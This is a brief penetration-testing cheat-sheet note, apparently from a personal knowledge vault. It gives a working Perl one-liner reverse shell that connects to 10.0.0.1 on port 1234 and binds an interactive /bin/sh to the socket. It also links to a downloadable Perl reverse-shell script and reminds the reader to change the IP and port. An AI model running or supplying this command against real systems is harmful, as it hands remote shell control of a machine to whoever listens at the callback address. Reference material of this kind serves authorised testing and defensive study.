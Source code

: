 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

### Reverse shell in perl
``perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'``

http://pentestmonkey.net/tools/web-shells/perl-reverse-shell
This is a perl program which can be downloaded and modified to call back to you. (Remember to change IP + PORT)


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
